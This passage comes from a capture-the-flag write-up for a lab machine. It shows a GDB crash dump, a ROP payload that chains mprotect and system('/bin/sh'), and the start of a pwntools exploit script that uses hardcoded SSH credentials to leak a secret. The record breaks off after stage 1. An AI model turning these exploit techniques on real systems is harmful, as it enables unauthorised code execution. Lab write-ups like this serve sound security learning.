     0008| 0xbffff618 ('B' <repeats 12 times>, "\375!\003\001\375!\003\001<\016")
    0012| 0xbffff61c ("BBBBBBBB\375!\003\001\375!\003\001<\016")
    0016| 0xbffff620 ("BBBB\375!\003\001\375!\003\001<\016")
    0020| 0xbffff624 --> 0x10321fd 
    0024| 0xbffff628 --> 0x10321fd 
    0028| 0xbffff62c --> 0x80000e3c (<main+197>:    mov    BYTE PTR [ebp-0x15],al)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    __libc_system (line=0xb7f759ab "/bin/sh") at ../sysdeps/posix/system.c:178
    178     ../sysdeps/posix/system.c: No such file or directory.
    

The error code threw me for a minute, but then I looked at the address of
`system`, 0xb7e54da0, and the range of libc that is no longer executable after
the assembly above, 0xb7e54000 - 0xb7e55000. That assembly is to make it so
that I can’t call `system`!

I looked at making a ROP payload that would make `system` executable again,
and then call it, but that payload is 104 bytes long:

    
    
    payload =  b"A" * 76             # 76
    payload += p32(mprotect)         # +4 = 80
    payload += p32(system)           # +4 = 84
    payload += p32(protected)        # +4 = 88
    payload += p32(protected_length) # +4 = 92
    payload += p32(5)                # +4 = 96
    payload += b'EXIT'               # +4 = 100
    payload += p32(binsh)            # +4 = 104
    

There are things I could do to jump back into the buffer and keep going, but
at this point, it’s just easier to go the intended path.

## Full Pwn Script

    
    
    #!/usr/bin/env python3
    
    import re
    from pwn import *
    
    
    sshConn = ssh(host="10.10.10.27", user="xalvas", password="18547936..*")
    goodluck = sshConn.process("/home/xalvas/app/goodluck")
    fn = f"/tmp/{randoms(10)}"
    
    ## Stage 1 - Leak hey.secret
    log.info(f'Writing Stage 1 exploit to {fn}')
    sshConn.upload_data(b"A" * 8 + p32(0x80002FF8), fn)
    goodluck.sendline(fn)
    goodluck.recv(4096)
    goodluck.sendline("2")
    resp = goodluck.recv(4096).decode()
    secret = re.findall(r'debug info: (0x[0-9a-f]+)', resp)[0]
    log.success(f"Found secret: {secret}")
    